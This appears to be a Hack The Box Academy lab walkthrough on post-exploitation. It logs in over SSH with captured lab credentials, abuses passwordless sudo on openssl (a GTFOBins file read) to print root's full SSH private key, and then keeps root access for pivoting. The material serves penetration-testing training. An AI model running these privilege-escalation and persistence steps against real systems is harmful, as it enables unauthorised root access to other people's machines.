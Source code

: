 # Post-Exploitation Persistence

Now that we've worked so hard to obtain this foothold, we don't want to lose it. The goal is to use this host as a pivot point to access the rest of the internal network. Our shell is still relatively unstable, and we don't want to keep setting up our access with multiple steps because we want to be as efficient as possible and spend as much time on the actual assessment, not fiddling around with shells.

***

## Sinking Our Hooks In

Now that we have credentials (`srvadm:ILFreightnixadm!`), we can leverage the SSH port we saw open earlier and connect in for a stable connection. This is important because we want to be able to get back as close as possible to the same spot at the start of testing each day, so we don't have to waste time on setup. Now we won't always have SSH open to the internet and may have to achieve persistence another way. We could create a reverse shell binary on the host, execute it via the command injection, get a reverse shell or Meterpreter shell, and then work through that. Since SSH is here, we'll use it. There are many ways to pivot and tunnel our traffic which were covered in-depth in the [Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/module/details/158) module, so it's worth trying out some of them in this section to get extra practice. We will need to use some of these as we go deeper into this network. It's also good to have a backup way to get back in when using someone's credentials, as they may notice that their account is compromised or just hit that time of the month when they are prompted to change their password, and we won't be able to connect back in the next day. We should always be thinking ahead, analyzing every angle, and trying to anticipate issues before they arise. A lab is much different from the real world, and there are no resets or do-overs, so we need to work meticulously and maintain situational awareness as best as possible.

```shell-session
$ ssh srvadm@10.129.203.111

The authenticity of host '10.129.203.111 (10.129.203.111)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.203.111' (ECDSA) to the list of known hosts.
srvadm@10.129.203.111's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage

 System information as of Tue 21 Jun 2022 07:30:27 PM UTC

 System load:                      0.31
 Usage of /:                       95.8% of 13.72GB
 Memory usage:                     64%
 Swap usage:                       0%
 Processes:                        458
 Users logged in:                  0
 IPv4 address for br-65c448355ed2: 172.18.0.1
 IPv4 address for docker0:         172.17.0.1
 IPv4 address for ens160:          10.129.203.111
 IPv6 address for ens160:          dead:beef::250:56ff:feb9:d30d
 IPv4 address for ens192:          172.16.8.120

 => / is using 95.8% of 13.72GB

* Super-optimized for small spaces - read how we shrank the memory
  footprint of MicroK8s to make it the smallest full K8s around.

  https://ubuntu.com/blog/microk8s-memory-optimisation

97 updates can be applied immediately.
30 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed Jun  1 07:08:59 2022 from 127.0.0.1
$ /bin/bash -i
srvadm@dmz01:~
```

Now that we have a stable connection via SSH, we can start enumerating further.

***

## Local Privilege Escalation

We could upload an enumeration script to the system such as [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), but I always try two simple commands after gaining access: `id` to see if the compromised account is in any privileged local groups, and `sudo -l` to see if the account has any type of `sudo` privileges to run commands as another user or as root. By now, we have practiced many privilege escalation techniques in both Academy modules and perhaps some boxes on the HTB main platform. It's great to have these techniques in our back pocket, especially if we land on a very hardened system. However, we are dealing with human administrators, and humans make mistakes and also go for convenience. More often than not, my path to escalating privileges on a Linux box during a pentest was not some wildcard attack leveraging tar and a cron job, but rather something simple such as `sudo su` without a password to gain root privileges or not having to escalate privileges because the service I exploited was running in the context of the root account. It's still necessary to understand and practice as many techniques as possible because, as said a few times now, every environment is different, and we want to have the most comprehensive toolkit possible at our disposal.

```shell-session
srvadm@dmz01:~$ sudo -l

Matching Defaults entries for srvadm on dmz01:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User srvadm may run the following commands on dmz01:
  (ALL) NOPASSWD: /usr/bin/openssl
```

Running `sudo -l`, we see that we can run the `/usr/bin/openssl` command as root without requiring a password. As suspected, there is a [GTFOBin](https://gtfobins.github.io/gtfobins/openssl/) for the OpenSSL binary. The entry shows various ways this can be leveraged: to upload and download files, gain a reverse shell, and read and write files. Let's try this to see if we can grab the SSH private key for the root user. This is ideal over just attempting to read the `/etc/shadow` file or obtain a reverse shell as the `ida_rsa` private key file will grant us SSH back into the environment as the root user, which is perfect for setting up our pivots.

The entry states that we can use the binary for privileged file reads as follows:

```shell-session
LFILE=file_to_read
openssl enc -in "$LFILE"
```

Let's give it a try

```shell-session
srvadm@dmz01:~$ LFILE=/root/.ssh/id_rsa
srvadm@dmz01:~$ sudo /usr/bin/openssl enc -in $LFILE

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA0ksXgILHRb0j1s3pZH8s/EFYewSeboEi4GkRogdR53GWXep7GJMI
oxuXTaYkMSFG9Clij1X6crkcWLnSLuKI8KS5qXsuNWISt+T1bpvTfmFymDIWNx4efR/Yoa
vpXx+yT/M2X9boHpZHluuR9YiGDMZlr3b4hARkbQAc0l66UD+NB9BjH3q/kL84rRASMZ88
y2jUwmR75Uw/wmZxeVD5E+yJGuWd+ElpoWtDW6zenZf6bqSS2VwLhbrs3zyJAXG1eGsGe6
i7l59D31mLOUUKZxYpsciHflfDyCJ79siXXbsZSp5ZUvBOto6JF20Pny+6T0lovwNCiNEz
7avg7o/77lWsfBVEphtPQbmTZwke1OtgvDqG1v4bDWZqKPAAMxh0XQxscpxI7wGcUZbZeF
9OHCWjY39kBVXObER1uAvXmoJDr74/9+OsEQXoi5pShB7FSvcALlw+DTV6ApHx239O8vhW
/0ZkxEzJjIjtjRMyOcLPttG5zuY1f2FBt2qS1w0VAAAFgIqVwJSKlcCUAAAAB3NzaC1yc2
EAAAGBANJLF4CCx0W9I9bN6WR/LPxBWHsEnm6BIuBpEaIHUedxll3qexiTCKMbl02mJDEh
RvQpYo9V+nK5HFi50i7iiPCkual7LjViErfk9W6b035hcpgyFjceHn0f2KGr6V8fsk/zNl
/W6B6WR5brkfWIhgzGZa92+IQEZG0AHNJeulA/jQfQYx96v5C/OK0QEjGfPMto1MJke+VM
P8JmcXlQ+RPsiRrlnfhJaaFrQ1us3p2X+m6kktlcC4W67N88iQFxtXhrBnuou5efQ99Ziz
lFCmcWKbHIh35Xw8gie/bIl127GUqeWVLwTraOiRdtD58vuk9JaL8DQojRM+2r4O6P++5V
rHwVRKYbT0G5k2cJHtTrYLw6htb+Gw1maijwADMYdF0MbHKcSO8BnFGW2XhfThwlo2N/ZA
VVzmxEdbgL15qCQ6++P/fjrBEF6IuaUoQexUr3AC5cPg01egKR8dt/TvL4Vv9GZMRMyYyI
7Y0TMjnCz7bRuc7mNX9hQbdqktcNFQAAAAMBAAEAAAGATL2yeec/qSd4qK7D+TSfyf5et6
Xb2x+tBo/RK3vYW8mLwgILodAmWr96249Brdwi9H8VxJDvsGX0/jvxg8KPjqHOTxbwqfJ8
OjeHiTG8YGZXV0sP6FVJcwfoGjeOFnSOsbZjpV3bny3gOicFQMDtikPsX7fewO6JZ22fFv
YSr65BXRSi154Hwl7F5AH1Yb5mhSRgYAAjZm4I5nxT9J2kB61N607X8v93WLy3/AB9zKzl
avML095PJiIsxtpkdO51TXOxGzgbE0TM0FgZzTy3NB8FfeaXOmKUObznvbnGstZVvitNJF
FMFr+APR1Q3WG1LXKA6ohdHhfSwxE4zdq4cIHyo/cYN7baWIlHRx5Ouy/rU+iKp/xlCn9D
hnx8PbhWb5ItpMxLhUNv9mos/I8oqqcFTpZCNjZKZAxIs/RchduAQRpxuGChkNAJPy6nLe
xmCIKZS5euMwXmXhGOXi0r1ZKyYCxj8tSGn8VWZY0Enlj+PIfznMGQXH6ppGxa0x2BAAAA
wESN/RceY7eJ69vvJz+Jjd5ZpOk9aO/VKf+gKJGCqgjyefT9ZTyzkbvJA58b7l2I2nDyd7
N4PaYAIZUuEmdZG715CD9qRi8GLb56P7qxVTvJn0aPM8mpzAH8HR1+mHnv+wZkTD9K9an+
L2qIboIm1eT13jwmxgDzs+rrgklSswhPA+HSbKYTKtXLgvoanNQJ2//ME6kD9LFdC97y9n
IuBh4GXEiiWtmYNakti3zccbfpl4AavPeywv4nlGo1vmIL3wAAAMEA7agLGUE5PQl8PDf6
fnlUrw/oqK64A+AQ02zXI4gbZR/9zblXE7zFafMf9tX9OtC9o+O0L1Cy3SFrnTHfPLawSI
nuj+bd44Y4cB5RIANdKBxGRsf8UGvo3wdgi4JIc/QR9QfV59xRMAMtFZtAGZ0hTYE1HL/8
sIl4hRY4JjIw+plv2zLi9DDcwti5tpBN8ohDMA15VkMcOslG69uymfnX+MY8cXjRDo5HHT
M3i4FvLUv9KGiONw94OrEX7JlQA7b5AAAAwQDihl6ELHDORtNFZV0fFoFuUDlGoJW1XR/2
n8qll95Fc1MZ5D7WGnv7mkP0ureBrD5Q+OIbZOVR+diNv0j+fteqeunU9MS2WMgK/BGtKm
41qkEUxOSFNgs63tK/jaEzmM0FO87xO1yP8x4prWE1WnXVMlM97p8osRkJJfgIe7/G6kK3
9PYjklWFDNWcZNlnSiq09ZToRbpONEQsP9rPrVklzHU1Zm5A+nraa1pZDMAk2jGBzKGsa8
WNfJbbEPrmQf0AAAALcm9vdEB1YnVudHU=
-----END OPENSSH PRIVATE KEY-----
```

{% hint style="info" %}
**Note:** If you are working from the Pwnbox, be sure to save this private key down to your notes or a local file or you'll have to re-do all steps to get back to this point should you decide to pause for a while.
{% endhint %}

***

## Establishing Persistence

Success! We can now save the private key to our local system, modify the privileges, and use it to SSH as root and confirm root privileges.

```shell-session
al1abb@htb[/htb]$ chmod 600 dmz01_key 
al1abb@htb[/htb]$ ssh -i dmz01_key root@10.129.203.111

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 21 Jun 2022 07:53:00 PM UTC

  System load:                      0.04
  Usage of /:                       97.1% of 13.72GB
  Memory usage:                     65%
  Swap usage:                       0%
  Processes:                        472
  Users logged in:                  1
  IPv4 address for br-65c448355ed2: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.129.203.111
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:d30d
  IPv4 address for ens192:          172.16.8.120

  => / is using 97.1% of 13.72GB

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

97 updates can be applied immediately.
30 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


You have mail.
Last login: Tue Jun 21 17:50:13 2022
root@dmz01:~# 
```

It worked, and we're in and now have a "save point" to get back into the internal environment quickly and can use this SSH access to set up port forwards and pivot internally.
